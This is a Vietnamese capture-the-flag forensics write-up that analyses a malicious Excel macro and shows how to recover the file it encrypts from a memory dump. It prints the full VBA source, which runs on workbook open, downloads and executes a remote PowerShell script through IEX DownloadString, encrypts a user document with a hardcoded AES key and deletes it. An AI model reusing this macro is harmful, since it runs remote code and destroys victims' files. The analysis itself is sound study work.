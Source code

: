 Marco được code bằng ngôn ngữ VBA ((Virtual Basic for Applications) 

```visual-basic
Sub Workbook_Open()
    Dim shell As Object
    Dim flag_here As String
    file = Chr(34) & "IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/1259iknowthat/c11ffc90ba3c69ada01755968badf45b/raw/2af09788717b4266983e7adf74bb8c75acad49b7/lmao.ps1')"
    Path = Chr(34) & Environ$("USERPROFILE") & "\Documents" & "\tailieuhoctap.txt" & Chr(34)
    enc = ";Invoke-AESEncryption -Mode Encrypt -Key "
    dec = ";Invoke-AESEncryption -Mode Decrypt -Key "
    arg1 = " -Text ""W1[https://www.youtube.com/watch?v=dQw4w9WgXcQ]"" "
    arg2 = " -Path " & Path
    arg3 = " -Text ""aN6JeGRcR2zPRgACNWSoSIb0IZsemYDxIr4AlcxRIchSpeKJwyScO2frGPf9Thv7"" "
    Key = Chr(34) & "Wr1t3_L33t_Str1n9_W1th_32_Ch4rz!" & Chr(34)
    pwsh = "" & "powershell "

    cmdline1 = pwsh & file & enc & Key & arg1 & ""
    cmdline2 = pwsh & file & enc & Key & arg2 & ""
    cmdline3 = pwsh & file & dec & Key & arg3 & ""

    flag_here = "https://www.youtube.com/watch?v=9Bl1pxG1N_A"
    ActiveWorkbook.FollowHyperlink Address:=flag_here

    Set shell = CreateObject("WScript.Shell")
    shell.Run cmdline1, 0, True
    shell.Run cmdline2, 0, True
    shell.Run cmdline3, 0, True

    Path = Environ$("USERPROFILE") & "\Documents" & "\tailieuhoctap.txt"
    Kill Path
End Sub
```

Điều đầu tiên thu hút mình là biến `Path`= “robbert8791\Documents\tailieuhoctap.txt”, đây là file document bị mã hóa đã nói lúc đầu. 

Thứ hai là biến `file` , truy cập [link](https://gist.githubusercontent.com/1259iknowthat/c11ffc90ba3c69ada01755968badf45b/raw/2af09788717b4266983e7adf74bb8c75acad49b7/lmao.ps1') thì đây chứa hàm dec và enc AES CBC mode.

Thứ ba là biến `Key` là key để dec và enc.

```visual-basic
$aesManaged.Key = $shaManaged.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
```

Marco này sẽ download hàm Invoke-AESEncrypt từ link, mã hóa tệp “tailieuhoctap.txt” bằng AES CBC mode với Key là `Wr1t3_L33t_Str1n9_W1th_32_Ch4rz!` 

Do  trong Invoke-AESEncrypt có option Decrypt nên  mình sẽ dùng cmd như cmd lúc enc để giải mã tệp.

Nhưng trước đó thì mình cần dumpfile tailieuhoctap.txt đã bị mã hóa ra.

```bash
vol -f chal.raw windows.dumpfiles.DumpFiles --virtaddr 0x858627107100
```
